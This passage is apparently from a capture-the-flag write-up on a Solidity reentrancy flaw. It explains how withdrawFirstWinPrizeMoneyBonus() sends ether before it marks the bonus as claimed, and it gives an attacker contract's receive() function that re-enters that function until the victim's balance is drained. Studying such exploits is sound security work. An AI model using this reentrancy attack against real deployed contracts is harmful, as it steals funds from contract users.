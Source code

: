 ```solidity
        uint256 prizeMoney = playerPool[_to];
        playerPool[_to] = 0;
        sendValue(payable(_to), prizeMoney);
    }
}
```
Essentially, `withdrawPrizeMoney()` simply sends the player calling the function the amount of ether as stored in `playerPool[recipient]`, after checking that the player has won at least 3 or more times consecutively. 

So where is the vulnerability and how can it be exploited? 

When a contract sends another address some ether like seen in the `sendValue(address payable recipient, uint256 amount)` function, the contract is actually making a call to the victim's [receive()](https://docs.soliditylang.org/en/latest/contracts.html#receive-ether-function) function. In essence, we can implement the `receive()` function in a way such that it makes a recursive call back to a victim contract's exploitable function.

In this case, the exploitable function is the `withdrawFirstWinPrizeMoneyBonus()`. Lets take a look at the function calls being made when a player calls the `withdrawFirstWinPrizeMoneyBonus()` function (or at least what's important to take note of):
- `withdrawFirstWinPrizeMoneyBonus()` --> 
    - `require(!claimedPrizeMoney[msg.sender]) -->
    - `playerPool[msg.sender] += 1 ether;` --> 
    - `withdrawPrizeMoney(msg.sender);` --> 
        - `sendValue(payable(_to), prizeMoney);` --> 
    - `claimedPrizeMoney[msg.sender] = true;`


If we can somehow re-make the call to the `withdrawFirstWinPrizeMoneyBonus()` function before `claimedPrizeMoney[msg.sender]` gets set to `true`, we can essentially keep recursively calling that function until the contract has no funds, which is the aim of this challenge ultimately. In other words, we want to make a function call back to the `withdrawFirstWinPrizeMoneyBonus()` function right after receiving ether from the victim contract, something like below:
- `withdrawFirstWinPrizeMoneyBonus()` --> 
    - `require(!claimedPrizeMoney[msg.sender])` -->
    - `playerPool[msg.sender] += 1 ether;` --> 
    - `withdrawPrizeMoney(msg.sender);` --> 
        - `sendValue(payable(_to), prizeMoney);` --> 
            - `withdrawFirstWinPrizeMoneyBonus()` --> 
                - `require(!claimedPrizeMoney[msg.sender])` -->
                - `playerPool[msg.sender] += 1 ether;` --> 
                - `withdrawPrizeMoney(msg.sender);` --> 
                    - `sendValue(payable(_to), prizeMoney);` --> 
                        - .......
    - `claimedPrizeMoney[msg.sender] = true;`

We can achieve this by simply extending our `Attack` contract and implementing our own malicious `receive()` function as shown below:
```solidity
receive() external payable {
    if (victim.viewWins(address(this)) >= 3 && address(victim).balance > 0) {
        victim.withdrawFirstWinPrizeMoneyBonus();
    }
}
```
